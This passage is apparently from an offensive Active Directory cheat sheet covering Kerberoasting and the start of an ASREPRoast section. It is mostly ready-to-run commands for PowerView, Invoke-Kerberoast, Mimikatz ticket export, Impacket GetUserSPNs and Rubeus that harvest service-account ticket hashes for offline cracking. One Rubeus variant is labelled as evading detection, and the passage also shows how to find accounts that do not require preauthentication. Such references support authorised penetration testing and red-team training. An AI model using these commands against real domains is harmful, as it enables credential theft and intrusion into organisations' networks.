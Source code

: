 ```
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN

#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast

#Requesting the TGS for a single account:
Request-SPNTicket
  
#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

* **AD Module:**

```
#Get User Accounts that are used as Service Accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

* **Impacket:**

```
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
```

* **Rubeus:**

```
#Kerberoasting and outputing on a file with a spesific format
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>

#Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec

#Kerberoast AES enabled accounts
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
 
#Kerberoast spesific user account
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple

#Kerberoast by specifying the authentication credentials 
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

#### **ASREPRoast**

_WUT IS DIS?:_\
If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted\
blob and bruteforce it offline.

* PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
* AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`
